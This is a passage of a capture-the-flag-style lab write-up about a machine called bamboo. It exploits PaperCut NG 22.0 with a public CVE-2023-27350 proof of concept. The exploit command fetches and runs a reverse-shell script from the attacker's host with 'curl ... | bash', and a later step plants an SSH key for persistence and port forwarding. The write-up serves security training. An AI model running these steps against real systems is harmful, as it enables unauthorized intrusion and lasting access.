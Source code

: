 Nice. We got some better informations now.
PaperCut NG is active on port 9191. 

accessing [http://127.0.0.1:9191](http://127.0.0.1:9191/) (through the same proxy ofc), we can see that it's using PaperCut NG version is 22.0.
searching for related CVEs, we find this PoC for CVE-2023-27350 on GitHub: [https://github.com/horizon3ai/CVE-2023-27350](https://github.com/horizon3ai/CVE-2023-27350)

This is pretty simple to use, the PoC is really good, so I've done it like this:
```bash
proxychains -q python3 CVE-2023-27350.py --url 'http://10.10.66.141:9191' --command 'curl 10.8.1.18/rev.sh|bash'

Then I received a shell:

(remote) papercut@bamboo:/home/papercut/server$ id
uid=1001(papercut) gid=1001(papercut) groups=1001(papercut)
```

Time to privesc.

# privesc

So first of all i will make a port forward & a persistence via SSH.

```bash
(remote) papercut@bamboo:/home/papercut$ mkdir .ssh
(remote) papercut@bamboo:/home/papercut$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAJl2IXTOqircRTrxdyhfbgv8Ddl5Thv6yz3SoiKSLf7 vaillant@sss" > .ssh/authorized_keys
```

Then now I can connect & port forward using my key:

```bash
vaillant@sss ~
❯ ssh -i .ssh/id_ed25519 -L 9191:127.0.0.1:9191 papercut@bamboo.vl                                                                      
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.19.0-1025-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 22 18:24:31 UTC 2024

  System load:  0.0               Processes:             113
  Usage of /:   39.9% of 7.57GB   Users logged in:       0
  Memory usage: 53%               IPv4 address for ens5: 10.10.66.141
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

19 updates can be applied immediately.
13 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```